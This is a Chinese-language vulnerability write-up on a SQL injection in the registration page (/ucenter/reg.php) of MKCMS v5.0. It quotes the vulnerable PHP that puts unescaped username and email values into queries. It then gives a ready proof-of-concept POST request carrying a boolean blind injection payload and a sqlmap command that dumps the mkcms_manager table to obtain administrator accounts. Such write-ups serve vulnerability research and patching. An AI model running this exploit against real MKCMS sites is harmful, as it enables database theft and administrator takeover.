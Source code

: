 # MKCMS v5.0 /ucenter/reg.php前台sql注入漏洞

### 一、漏洞简介

### 二、漏洞影响

MKCMS v5.0

### 三、复现过程

漏洞出现在/ucenter/reg.php第7-19行:


```php
if(isset($_POST['submit'])){
$username = stripslashes(trim($_POST['name']));
// 检测用户名是否存在
$query = mysql_query("select u_id from mkcms_user where u_name='$username'");
if(mysql_fetch_array($query)){
echo '<script>alert("用户名已存在，请换个其他的用户名");window.history.go(-1);</script>';
exit;
}
$result = mysql_query('select * from mkcms_user where u_email = "'.$_POST['email'].'"');
if(mysql_fetch_array($result)){
echo '<script>alert("邮箱已存在，请换个其他的邮箱");window.history.go(-1);</script>';
exit;
}
```

注册用户名时`$username`参数传到后台后经过stripslashes()函数处理，而stripslashes()函数的作用是删除addslashes() 函数添加的反斜杠。这里就很郁闷了，过滤反斜杠干嘛？

当前页面无输出点，只是返回一个注册/未注册（通过if判断true或者false)，可以使用布尔盲注来解决这个问题

POC：


```bash
POST /ucenter/reg.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/ucenter/reg.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Connection: close
Cookie: PHPSESSID=cb8e6ccde6cf9050972fa9461d606be3
Upgrade-Insecure-Requests: 1

name=test' AND 1=1 AND 'inject'='inject&email=sss%40qq.com&password=ssssss&submit=
```

![](images/15891858404662.jpg)


将POC中的数据包保存下来丢给sqlmap跑即可。

获取管理员账号：


```bash
sqlmap -r inject.txt -D mkcms -T mkcms_manager --dump
```

参考链接

https://xz.aliyun.com/t/4189#toc-1
